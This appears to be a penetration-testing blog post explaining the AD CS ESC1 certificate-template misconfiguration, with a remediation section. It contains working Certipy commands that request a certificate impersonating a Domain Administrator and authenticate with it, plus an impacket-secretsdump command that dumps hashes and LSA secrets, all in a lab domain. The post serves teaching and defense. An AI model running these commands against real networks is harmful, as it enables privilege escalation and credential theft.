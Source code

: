 ```yaml
---
title: "Exploiting Misconfigured Active Directory Certificate Template – ESC1"
slug: "adcs-esc1-exploit"
author: "PentStark Labs"
date: "2025-10-03"
readTime: "8 min read"
category: "Active Directory"
tags: ["ADCS", "Active Directory", "ESC1", "PKI", "Certipy", "Rubeus"]
image: "/public/blog01/blog01-0.png" 
excerpt: "How a single 'Enrollee supplies subject' option on an AD CS template lets attackers mint logon-capable certificates for any user, including Domain Admins."
featured: true
---
```


# Exploiting and Fixing Vulnerable Certificate Templates in Active Directory

Certificates are crucial in establishing trust and securing communication within the Active Directory environment. They are used for authentication, encryption, and digital signatures. Certificate Templates are predefined configurations that define the properties and settings for the certificates issued by the Active Directory Certificate Authority (CA). These templates help standardize certificate issuance and ensure certificates adhere to specific security requirements. An attacker can use these templates to escalate privileges from domain users to domain admins if they are not configured correctly. In this blog, we will discuss what a vulnerable template is and how to exploit and fix it.

## Active Directory Certificate Services (AD CS) Templates

Active Directory Certificate Services (AD CS) templates are predefined certificate request configurations that allow administrators to define the characteristics of certificates that will be issued by the CA (Certificate Authority). Templates serve as blueprints for different types of certificates and their properties, making it easier to manage and issue certificates with consistent settings across an organization’s PKI (Public Key Infrastructure).

Administrators can streamline requesting, issuing, and managing certificates within an organization using templates. Templates ensure consistency, simplify the certificate issuance process, and help maintain security standards by enforcing specific configurations for different certifications.

## Active Directory Certificate Services (AD CS) Vulnerable Templates

Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11). In this blog, we will exploit ESC1 misconfiguration in a template.

By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment.

## Exploiting ESC1

For exploiting ESC1, we need the Template to meet certain criteria. The Template must have:

- Enrollment Rights set for the group our user belongs to so that we can request a new certificate from the Certificate Authority (CA).
- Extended Key Usage: Client Authentication means the generated certificate based on this Template can authenticate to the domain computers.
- Enrollee Supplies Subject set to True, which means we can supply SAN (Subject Alternate Name).
- No Manager Approval is required, which means the request is auto-approved.

### Step to Exploit Misconfigured Certificate Template – ESC1

1. Certipy is a tool used for finding and exploiting certificates in Active Directory.

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-1.png)

2. Run certipy against the domain controller to find any vulnerable templates.

```
certipy find -vulnerable -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!'
```
![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-2.png)


    - `-u`: Domain User  
    - `-p`: Domain User Password  
    - `-dc-ip`: Domain Controller IP  

    Domain: ACU.local


3. Cat the created text file by certipy to see the vulnerable Template.

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-3.png)

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-4.png)


    From the output, it is clear that enrollment rights are set for Domain Users, Enrollee Supplies Subject is set to True, and Extended Key Usage has Client Authentication.

4. Request a certificate and supply the Administrator’s SAN (Subject Alternate Name).

    ```
    certipy req -dc-ip 192.168.0.144 -u Guts@ACU.local -p 'P@ssw0rd!' -ca ACU-ANIKATE-DC-CA -target ANIKATE-DC.ACU.local -template ESC1 -upn Administrator@ACU.local -dns Anikate-DC.ACU.local
    ```
![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-5.png)

    - `ca`: Certificate Authority (ACU-ANIKATE-DC-CA in this case)  
    - `target`: CA Hostname (ANIKATE-DC.ACU.local in this case)  
    - `template`: Name of the vulnerable Template (ESC1 in this case)  
    - `upn`: Target Username (Administrator in this case)  
    - `dns`: DNS Server (Anikate-DC.ACU.local in this case)

5. Authenticate against the domain controller using the certificate.

```
certipy auth -pfx administrator_anikate-dc.pfx -dc-ip 192.168.0.144
```
![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-6.png)

    - `auth`: Which identity to authenticate as (We are establishing as Administrator, so use 0, i.e., UPN: Administrator@ACU.local)  
    - `-pfx`: Saved Certificate (administrator_anikate-dc.pfx in this case)  

    Now, we attempt to show the domain controller using the certificate and get the TGT (Ticket Granting Ticket); the domain controller will attach the NTLM hash of the user with TGT.

6. Dump hashes and LSA secrets using secretsdump.

```
impacket-secretsdump -hashes 'aad3b435b51404eeaad3b435b51404ee:9a0c89751f9ac637242da5ac889fa3aa' 'ACU.local/Administrator@192.168.0.144.'
```
![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-7.png)


## Fixing the Misconfigured Certificate Template – ESC1

1. Open the Server Manager on your Certificate Authority.  
2. Click on **Tools** and then **Certification Authority**.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-8.png)

3. Right-click on **Certificate Templates** and click on **Manage**.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-9.png)

4. Right-click on the vulnerable Template and click on **Properties**.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-10.png)

5. Go to **Issuance Requirements** and check the **CA certificate manager approval** box.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-11.png)

6. Go to **Subject Name**, select **Build from this Active Directory information** instead of **Supply in the request**, and click **Apply**.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-12.png)

7. Go to **Security**, select the **Domain Users Group**, uncheck the **Enroll** box, and then click **Apply** and **OK**.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-13.png)

8. Now rerun certipy.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-14.png)

9. Cat the created text file by certipy to see if the vulnerable Template exists.  

![ESC1 – AD CS Vulnerable Template](/public/blog01/blog01-15.png)

Certipy should not find any vulnerable templates.

## TL;DR

Attackers can escalate their privileges from domain users to domain admins by exploiting the misconfiguration of certificate templates that are not vulnerable by default but due to human-made misconfigurations. For exploitation, we need the Template to meet certain requirements: ability to supply SAN (Subject Alternate Name), manager approval set to False, enrollment rights for the user group, and Template allows client authentication.
